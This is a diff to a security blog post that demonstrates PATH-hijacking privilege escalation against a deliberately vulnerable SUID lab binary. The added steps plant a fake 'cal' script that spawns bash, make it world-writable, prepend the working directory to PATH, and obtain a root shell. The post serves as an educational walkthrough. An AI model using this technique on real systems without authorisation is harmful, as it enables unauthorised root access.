

Before and after one commit to whitecr0wz/whitecr0wz.github.io, a Jekyll site: the page built from _posts/posts/2020-03-08-Privilege-Escalation-Path.md, in a window 1280 px wide and 1400 px high, scrolled down 475 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1103 px from its top, so only the background shows below that.

Commit message:
Update 2020-03-08-Privilege-Escalation-Path.md

````diff
--- a/_posts/posts/2020-03-08-Privilege-Escalation-Path.md
+++ b/_posts/posts/2020-03-08-Privilege-Escalation-Path.md
@@ -49,3 +49,64 @@ root@whitecr0wz:~/vuln# ls -la /usr/bin/vuln
 -rwsr-xr-x 1 root root 16712 Aug 10 19:58 /usr/bin/vuln
 root@whitecr0wz:~/vuln#
 ```
+
+##### After this is done, just su into your user.
+
+##### If the application is run, it displays everything as intended:
+
+```term
+whitecr0wz@whitecr0wz:~/vuln$ /usr/bin/vuln
+    August 2020
+Su Mo Tu We Th Fr Sa
+                   1
+ 2  3  4  5  6  7  8
+ 9 10 11 12 13 14 15
+16 17 18 19 20 21 22
+23 24 25 26 27 28 29
+30 31
+Usage: time [-apvV] [-f format] [-o file] [--append] [--verbose]
+       [--portability] [--format=format] [--output=file] [--version]
+       [--quiet] [--help] command [arg...]
+whitecr0wz@whitecr0wz:~/vuln$
+```
+
+##### Moreover, if strings is used and grepped for "cal", the system call may be found:
+
+```term
+whitecr0wz@whitecr0wz:~/vuln$ strings /usr/bin/vuln | grep cal
+cal && time && date
+whitecr0wz@whitecr0wz:~/vuln$
+```
+
+##### The command that will be spoofed is cal, due to the fact that it is the first to be called:
+
+```term
+whitecr0wz@whitecr0wz:~/vuln$ cat cal
+#!/bin/bash
+/bin/bash
+whitecr0wz@whitecr0wz:~/vuln$
+```
+
+##### The file is chmodded with 777 bits:
+
+```term
+whitecr0wz@whitecr0wz:~/vuln$ chmod 777 cal
+```
+
+##### Now, where the fun begins, the $PATH variable is exported into the current working directory, being "/home/whitecr0wz/vuln", where "cal" will be searched for:
+
+```term
+whitecr0wz@whitecr0wz:~/vuln$ pwd
+/home/whitecr0wz/vuln
+whitecr0wz@whitecr0wz:~/vuln$ export PATH=/home/whitecr0wz/vuln:$PATH
+whitecr0wz@whitecr0wz:~/vuln$ echo $PATH
+/home/whitecr0wz/vuln:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
+whitecr0wz@whitecr0wz:~/vuln$
+```
+
+##### Last but not least, vuln is executed, spoofing /usr/bin/cal for /home/whitecr0wz/vuln/cal, which leads to a root shell:
+
+```term
+whitecr0wz@whitecr0wz:~/vuln$ /usr/bin/vuln
+root@whitecr0wz:~/vuln#
+```
````
